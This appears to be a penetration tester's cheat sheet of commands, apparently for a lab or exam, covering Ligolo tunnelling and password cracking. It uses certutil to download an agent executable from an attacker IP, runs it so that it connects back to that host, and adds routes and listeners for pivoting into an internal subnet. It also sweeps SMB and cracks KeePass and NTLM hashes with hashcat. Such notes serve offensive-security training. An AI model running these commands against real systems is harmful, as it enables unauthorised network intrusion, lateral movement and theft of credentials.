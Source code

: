```jsx
certutil -urlcache -split -f http://192.168.45.218/agent.exe /Windows/Temp/agent.exe
/Windows/Temp/agent.exe -connect 192.168.45.218:11601 -ignore-cert
```

```jsx
session
1
ifconfig
```

```jsx
sudo ip route add 172.16.229.0/24 dev ligolo
```

```jsx
session
1
start
```

```jsx
netexec smb 172.16.229.0/24
```

### Ligolo access to 127.0.0.1 on agent

```jsx
sudo ip route add 240.0.0.1/32 dev ligolo
```

### Ligolo Listener

```jsx
listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

```jsx
listener_list
```

# Cracking

[CrackStation - Online Password Hash Cracking - MD5, SHA1, Linux, Rainbow Tables, etc.](https://crackstation.net/)

[Hash Type Identifier - Identify unknown hashes](https://hashes.com/en/tools/hash_identifier)

### Hashcat

```jsx
hashcat --help | grep -i "KeePass"
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

```jsx
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
